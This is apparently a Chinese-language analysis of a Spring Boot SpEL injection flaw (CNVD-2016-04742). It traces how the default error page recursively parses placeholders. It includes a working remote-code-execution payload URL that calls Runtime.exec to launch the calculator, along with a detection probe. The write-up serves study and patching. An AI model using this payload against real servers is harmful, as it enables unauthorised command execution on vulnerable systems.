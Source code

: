 # SpringBoot框架SPEL注入漏洞分析(CNVD-2016-04742)

## 0x00 Introduction 
- CNVD-2016-04742
- SPEL注入经典洞，可以通过SpringBoot默认错误页面触发。

### 环境准备

- 代码： https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-spel-rce

- IDEA配置下运行环境（SpringBoot）,maven重新加载下程序。

SpringBoot框架影响版本：1.1.0-1.1.12 1.2.0-1.2.7 1.3.0


## 0x01 漏洞分析

- 检测PoC：
`http://localhost:9091/article?id=${9*9}`
- 命令执行EXP:
`http://localhost:9091/article?id=${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x63,0x61,0x6c,0x63}))}`

Controller逻辑代码如下，当传入的参数id不是int型强制转换时候报错，会将参数传递给error页面，参数中会检测是否存在${}，递归解析SPEL，进而触发漏洞。
```java
@RestController
@EnableAutoConfiguration
public class Article {
    @RequestMapping("/article")
    public String hello(String id){
        int total = 100;
        String message = String.format("You've read %s books, and there are %d left", id, total - Integer.valueOf(id));
        return message;
    }
}
```


## 0x02 调试分析

我们使用- 命令执行EXP:
`http://localhost:9091/article?id=${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x63,0x61,0x6c,0x63}))}`进行调试，通过弹计算机方便定位触发点。

### 抛出异常
Spring框架中`org.springframework.web.servlet.DispatcherServlet`调度Servlet的执行。当请求发送过来会
第一次doDispatch()，进而抛出异常，这不是关注重点，调试可以省略。     
调度处理函数：     
```java
protected void doDispatch(HttpServletRequest request, HttpServletResponse response) throws Exception {
    HttpServletRequest processedRequest = request;
    HandlerExecutionChain mappedHandler = null;
    boolean multipartRequestParsed = false;
    WebAsyncManager asyncManager = WebAsyncUtils.getAsyncManager(request);

    try {
        try {
            ModelAndView mv = null;
            Exception dispatchException = null;

            try {
                processedRequest = this.checkMultipart(request);
                ...
                //处理request报错，抛出异常
                mv = ha.handle(processedRequest, response, mappedHandler.getHandler());
                ...
            } catch (Exception var19) {
                //最里层的try，设置异常类型，不return
                dispatchException = var19;
            }
            //处理请求结果,dispatchException如果不为null接着抛出异常
            this.processDispatchResult(processedRequest, response, mappedHandler, mv, dispatchException);
            } 
            catch (Exception var20) {
            //进入第二层异常处理
                
            } 
            catch (Error var21) {
                this.triggerAfterCompletionWithError(processedRequest, response, mappedHandler, var21);
            }

```


### 返回报错页面

第二次调用doDispatch()，报错界面view处理，没有抛异常，正常走`processDispatchResult()`。      

进而调用链是
`org.springframework.web.servlet.DispatcherServlet.render()`-->
`org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration.render()`，主要是用来渲染报错页面的，
因为，poc中int型转换报错，会把字符串信息也一并出入message标量中。
message参数为：    
`message -> For input string: "${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x63,0x61,0x6c,0x63}))}"`
```java
 public void render(Map<String, ?> model, HttpServletRequest request, HttpServletResponse response) throws Exception {
    if (response.getContentType() == null) {
        response.setContentType(this.getContentType());
    }

    Map<String, Object> map = new HashMap(model);
    map.put("path", request.getContextPath());
    this.context.setRootObject(map);
    //替换占位符${}，后续触发spel解析
    String result = this.helper.replacePlaceholders(this.template, this.resolver);
    response.getWriter().append(result);
}
```

### 递归解析
问题在于`org.springframework.util.PropertyPlaceholderHelperparseStringValue()`,对于传入的模板字符会检测占位符（`${}`），进而通过spel解析，但是它会递归解析这个过程。

函数如下：
```java
protected String parseStringValue(String strVal, PlaceholderResolver placeholderResolver, Set<String> visitedPlaceholders) {
    StringBuilder result = new StringBuilder(strVal);
    //`placeholderPrefix = "${"`
    int startIndex = strVal.indexOf(this.placeholderPrefix);
    while(startIndex != -1) {
        //找}闭合字符
        int endIndex = this.findPlaceholderEndIndex(result, startIndex);
        //存在${}进入分支
         if (endIndex != -1) {
            String placeholder = result.substring(startIndex + this.placeholderPrefix.length(), endIndex);
            String originalPlaceholder = placeholder;
            if (!visitedPlaceholders.add(placeholder)) {
                throw new IllegalArgumentException("Circular placeholder reference '" + placeholder + "' in property definitions");
            }
            //递归，返回字符串
            placeholder = this.parseStringValue(placeholder, placeholderResolver, visitedPlaceholders);
            //通过spel获取值
            String propVal = placeholderResolver.resolvePlaceholder(placeholder);
            if (propVal != null) {
                //递归，通过上一个spel获取的值，通过递归再走一遍，也就是说如果值中存在${}占位符，依旧可以通过spel执行
                propVal = this.parseStringValue(propVal, placeholderResolver, visitedPlaceholders);
                result.replace(startIndex, endIndex + this.placeholderSuffix.length(), propVal);
                if (logger.isTraceEnabled()) {
                    logger.trace("Resolved placeholder '" + placeholder + "'");
    ...         
```
传入的参数strVal如下，是报错页面的模板。   
```html
<html>
    <body>
        <h1>Whitelabel Error Page</h1>
        <p>This application has no explicit mapping for /error, so you are seeing this as a fallback.</p>
        <div id='created'>${timestamp}</div>
        <div>There was an unexpected error (type=${error}, status=${status}).</div>
        <div>${message}</div>
    </body>
</html>
```
解析器对象placeholderResolver，主要存页面渲染的参数值。     
```bash
exception=java.lang.NumberFormatException,
path=, 
error=Internal Server Error, 
message=For input string: "${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x63,0x61,0x6c,0x63}))}", 
timestamp=Thu Dec 14 12:41:59 CST 2023, 
status=500
```
看函数代码，首先在模板中寻找第一个${}，一直递归找不到位置。    
我们拿最后一个${message}为例。
1. 通过前面定位到${，取出${}中的值是message，然后递归解析message，不存在嵌套则返回message。   
2. 随后通过`placeholderResolver.resolvePlaceholder(placeholder)`进行spel解析，通过上下文寻找message对应的value值取出。  
3. 接着递归，会再次寻找占位符，进而触发spel解析，造成漏洞执行。  


spel解析点
`org.springframework.util.PropertyPlaceholderHelper.resolvePlaceholder()`

```java
public String resolvePlaceholder(String name) {
    Expression expression = this.parser.parseExpression(name);

    try {
        //spel执行点
        Object value = expression.getValue(this.context);
        return HtmlUtils.htmlEscape(value == null ? null : value.toString());
    } catch (Exception var4) {
        return null;
    }
}
```


## Ref 
- https://www.freebuf.com/vuls/347480.html
